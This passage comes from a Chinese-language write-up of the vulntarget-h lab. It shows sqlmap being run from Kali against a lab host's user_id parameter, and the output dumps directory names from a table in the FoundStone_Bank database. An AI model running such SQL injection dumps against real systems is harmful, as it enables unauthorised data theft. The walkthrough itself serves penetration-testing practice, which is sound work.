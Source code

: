 > ![Screenshot_2022-06-30_10-06-00.png](../images/vulntarget-h%20write-up/Screenshot_2022-06-30_10-06-00.png)
> 
> + 使用`sqlmap`查看刚才插入的数据。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Desktop]
> └─$ sqlmap "http://192.168.1.99?user_id=1" -D "FoundStone_Bank" -T "tmp" -C "dir" --dump --flush-session
>         ___
>        __H__                                                                                                                                                
>  ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
> |_ -| . [,]     | .'| . |                                                                                                                                   
> |___|_  [(]_|_|_|__,|  _|                                                                                                                                   
>       |_|V...       |_|   https://sqlmap.org                                                                                                                
> 
> [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
> 
> [*] starting @ 10:10:47 /2022-06-30/
> 
> [10:10:47] [INFO] flushing session file
> ...
> Database: FoundStone_Bank
> Table: tmp
> [6 entries]
> +----------------+
> | dir            |
> +----------------+
> | custerr        |
> | edrfgyhujikopl |
> | history        |
> | logs           |